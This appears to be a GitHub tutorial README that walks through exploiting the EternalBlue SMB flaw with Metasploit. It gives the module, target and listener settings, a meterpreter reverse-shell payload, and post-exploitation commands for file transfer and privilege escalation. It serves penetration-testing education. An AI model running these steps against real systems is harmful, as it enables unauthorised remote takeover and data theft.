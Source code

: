 # Exploiting MS17-010 EternalBlue Vulnerability using Metasploit

<details>
<summary><strong>Metasploit</strong></summary>
Metasploit is an open-source penetration testing framework that offers a vast collection of tools and exploits for security testing, vulnerability assessment, and penetration testing. It provides a comprehensive platform for security professionals and researchers to test systems, identify vulnerabilities, and execute various security assessments. Metasploit includes a vast database of exploits, payloads, auxiliary modules, and post-exploitation tools, enabling users to assess the security posture of systems and networks.
</details>

<details>
<summary><strong>Eternal Blue</strong></summary>
EternalBlue is the codename for a critical software vulnerability in Microsoft's Windows operating system discovered by the National Security Agency (NSA) and later leaked by a hacking group. This vulnerability (CVE-2017-0144) affects the Windows Server Message Block (SMB) protocol. EternalBlue exploits a flaw in the SMBv1 protocol, allowing attackers to execute arbitrary code remotely on a vulnerable system without requiring user interaction. It was famously used as part of the WannaCry ransomware attack, highlighting its significance and the need for timely system patching and security measures.
</details>

## 1. Set Up Your Environment
Ensure you have Metasploit installed on your system. You can use Kali Linux, Parrot OS, or install Metasploit manually on your preferred OS.

## 2. Start Metasploit Framework
Open a terminal and launch Metasploit by typing:

```bash
msfconsole
```

### View all available command in Metasploit using:

```bash
help
```

### Metasploit module:

In Metasploit, understanding various module categories is crucial for effective penetration testing and exploit development. Use `show all` command to display all available modules.

-----------------------------------------------------------------------------------------------------------------------------------------------------
| Category     | Description                                                                                       | Example Usage                  |
|--------------|---------------------------------------------------------------------------------------------------|--------------------------------|
| `exploit`    | Targets vulnerabilities in software or systems for unauthorized access or code execution.         | `show exploit`                 |
| `auxiliary`  | Tools in Metasploit for tasks like scanning, information gathering, etc., without compromise.     | `show auxiliary`               |
| `payload`    | Code/scripts performing actions on exploited systems (e.g., reverse shell or executing commands). | `show payload`                 |
| `post`       | Modules for actions post-exploitation like info gathering, privilege escalation, etc.             | `show post`                    |
| `encoder`    | Encoders modify payloads to evade antivirus or intrusion detection systems.                       | `show encoders`                |
| `nop`        | No Operation sleds used for payload alignment in exploit development.                             | `show nops`                    |
| `evasion`    | Evasion modules designed to bypass security defenses such as firewalls, IDS/IPS, and antivirus.   | `show evasion`                 |
-----------------------------------------------------------------------------------------------------------------------------------------------------

## 3. Search for the MS17-010 EternalBlue Exploit Module
To search for a specific module:

```bash
search ms17-010
```

## 4. Select the Exploit Module
After finding the appropriate exploit module (e.g., exploit/windows/smb/ms17_010_eternalblue), select it by entering:

```bash
use exploit/windows/smb/ms17_010_eternalblue
```

## 5. Set Required Parameters

Configure necessary parameters by employing the `show options` command to view and adjust settings as needed. Common options include `RHOSTS`,`LHOST`, `RPORT`, etc.

```bash
set RHOSTS <Target IP>
```
-------------------------------------------------------------------------------
| Parameter | Description                           | Example Usage           |
|-----------|---------------------------------------|-------------------------|
| RHOSTS    | Remote host(s) IP address(es)         | `set RHOSTS 192.168.1.5`|
| LHOST     | Local host listening IP for payloads  | `set LHOST 192.168.1.2` |
| RPORT     | Remote port for the target service    | `set RPORT 445`         |
-------------------------------------------------------------------------------

## 6. Set Payload

After selecting the exploit module, you need to set the payload that will be delivered to the compromised system. This payload determines the action or code executed on the target after exploitation.
For example, to set the payload as a reverse shell for a Windows target:

```bash
set payload windows/x64/meterpreter/reverse_tcp
```

## 7. Execute the Exploit
Once all necessary options are set, run the exploit by typing:

```bash
exploit
```

The exploit might take some time to run. Upon successful exploitation, Metasploit may display the `meterpreter` prompt, indicating a successful compromise of the target system.

## 8. Post-Exploitation Actions

Once the exploit succeeds and you gain access to the compromised system, you can perform various post-exploitation actions using the `meterpreter` prompt.

### Some useful post-exploitation commands:

- **System Commands** 

Execute system commands on the target system using :
  
```bash
shell
```
  
- **Gather System Information**

Retrieve system information like system details, user information, etc. using commands:

```bash
sysinfo,getuid
``` 

- **File Operations**

Manipulate files on the compromised system using commands:

```bash
download, upload, ls, cd
```

- **Privilege Escalation**

Attempt to elevate privileges on the target system using modules:

```bash
getsystem, migrate
```

- **Open URL**

Open URL in compromised device using commands like:

```bash
start explorer https://www.example.com
```





